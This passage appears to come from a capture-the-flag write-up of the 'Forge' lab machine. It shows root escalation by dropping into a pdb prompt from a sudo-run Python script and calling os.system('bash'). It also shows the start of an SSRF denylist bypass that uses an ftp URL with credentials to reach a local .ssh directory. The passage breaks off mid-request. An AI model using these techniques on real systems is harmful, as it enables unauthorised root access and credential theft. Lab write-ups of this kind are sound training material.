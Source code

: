 This terminal just hangs. Back in the other, there's an error dump and a
`pdb` prompt:



    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:11563
    invalid literal for int() with base 10: b'0xdf'
    > /opt/remote-manage.py(27)<module>()
    -> option = int(clientsock.recv(1024).strip())
    (Pdb)



One simple way to a shell from here is to use `os.system`:



    (Pdb) import os
    (Pdb) os.system('bash')
    root@forge:/home/user#



And grab `root.txt`:



    root@forge:~# cat root.txt
    72e7ca6f************************



## Beyond Root

### Filter Bypasses

#### Enumerating the Denylist

I wanted to take a closer look at the filter on the url submission, to
see if it could be bypassed, and it turned out that it's relatively
weak.

I'll start with the URL I wanted to use to grab the SSH key:



    http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/



I'll submit that URL and look at the request in Burp:



    POST /upload HTTP/1.1
    Host: forge.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:96.0) Gecko/20100101 Firefox/96.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 120
    Origin: http://forge.htb
    Connection: close
    Referer: http://forge.htb/upload
    Upgrade-Insecure-Requests: 1
